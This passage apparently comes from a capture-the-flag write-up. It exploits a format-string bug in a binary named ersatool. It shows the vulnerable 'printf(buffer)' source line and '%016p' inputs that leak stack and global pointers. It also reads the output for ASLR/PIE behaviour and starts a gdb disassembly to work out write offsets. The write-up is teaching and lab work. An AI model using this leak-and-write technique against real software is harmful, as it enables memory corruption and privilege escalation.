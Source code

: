 
That’s calling `printf` on a buffer without a format string. If that buffer is
user controlled, then it can be used to leak and write memory.

I’ll use `%p` to print 64-bit pointers, with `016` to zero-pad the results and
a `.` to create spacing:

    
    
    oxdf@parrot$ ./ersatool print %016p.%016p.%016p.%016p.%016p.%016p.%016p.%016p.%016p.%016p
    0x0056378a09d15f.0x00000000000005.0x000000006e7076.0x00000000000014.0x007ffcfbb9fed0.           (nil).0x007ffcfbba21b2.0x30252e7036313025.0x363130252e703631.0x2e70363130252e70[!] ERR reading /opt/easyrsa/clients/%016p.%016p.%016p.%016p.%016p.%016p.%016p.%016p.%016p.%016p.ovpn!
    oxdf@parrot$ ./ersatool print %016p.%016p.%016p.%016p.%016p.%016p.%016p.%016p.%016p.%016p
    0x005577868eb15f.0x00000000000005.0x000000006e7076.0x00000000000014.0x007ffd447d6170.           (nil).0x007ffd447d81b2.0x30252e7036313025.0x363130252e703631.0x2e70363130252e70[!] ERR reading /opt/easyrsa/clients/%016p.%016p.%016p.%016p.%016p.%016p.%016p.%016p.%016p.%016p.ovpn!
    oxdf@parrot$ ./ersatool print %016p.%016p.%016p.%016p.%016p.%016p.%016p.%016p.%016p.%016p
    0x00563ff8e7a15f.0x00000000000005.0x000000006e7076.0x00000000000014.0x007fffbd26ca20.           (nil).0x007fffbd26e1b2.0x30252e7036313025.0x363130252e703631.0x2e70363130252e70[!] ERR reading /opt/easyrsa/clients/%016p.%016p.%016p.%016p.%016p.%016p.%016p.%016p.%016p.%016p.ovpn!
    

There’s a few things that jump out here:

  * By running it a couple times, I can tell which memory addresses are impacted by ASLR/PIE and which are not. For example, in the first words, the low three characters (nibbles) and high three nibbles are staying constant, but the rest is changing. The fifth word is keeping the high five and lowest nibbles constant, and changing the rest. If I had to guess, the fifth is a stack address, and the first is some kind of global.
  * The eighth word contains my input, 0x25 (`%`), 0x30 (`0`), 0x31 (`1`), 0x36 (`6`), 0x70 (`p`), 0x2e (`.`), etc. This makes sense, as the format string is on the stack as well.

#### Identify Pointers

If I can identify a constant distance in memory between one of these pointers
and something I want to write to, I can use this leak to calculate that
address, and then I’ll have a file write.

I’ll open `gdb` with `gdb ersatool`, and look at the `printCN` function with
`disassemble printCN`. In the source, around the print, it does a bunch of
`strncpy`, `strncat`, `strlen` calls just before the `printf`, and then a call
to `filePrint`:

    
    
     47         strncpy(fn, OUTPUT_DIR,sizeof(fn));
     48         strncat(fn, "/",sizeof(fn)-strlen(fn));
     49         strncat(fn, strtok(basename(buffer),"\n"),sizeof(fn)-strlen(fn));
     50         strncat(fn, EXT, sizeof(fn)-strlen(fn));
     51         printf(buffer); //checking buffer content
     52         filePrint(fn);
    

The vulnerable `printf` must be 396 bytes into the function:

    
    
       0x0000000000001406 <+337>:   call   0x10e0 <strncat@plt>
       0x000000000000140b <+342>:   lea    rax,[rbp-0x80]
       0x000000000000140f <+346>:   mov    rdi,rax            
       0x0000000000001412 <+349>:   call   0x1070 <strlen@plt>
       0x0000000000001417 <+354>:   mov    edx,0x64
       0x000000000000141c <+359>:   sub    rdx,rax       
       0x000000000000141f <+362>:   lea    rax,[rbp-0x80]                        
       0x0000000000001423 <+366>:   lea    rsi,[rip+0x3d35]        # 0x515f <EXT>
       0x000000000000142a <+373>:   mov    rdi,rax             
       0x000000000000142d <+376>:   call   0x10e0 <strncat@plt>
       0x0000000000001432 <+381>:   lea    rax,[rbp-0xf0]
       0x0000000000001439 <+388>:   mov    rdi,rax
       0x000000000000143c <+391>:   mov    eax,0x0            
       0x0000000000001441 <+396>:   call   0x10b0 <printf@plt>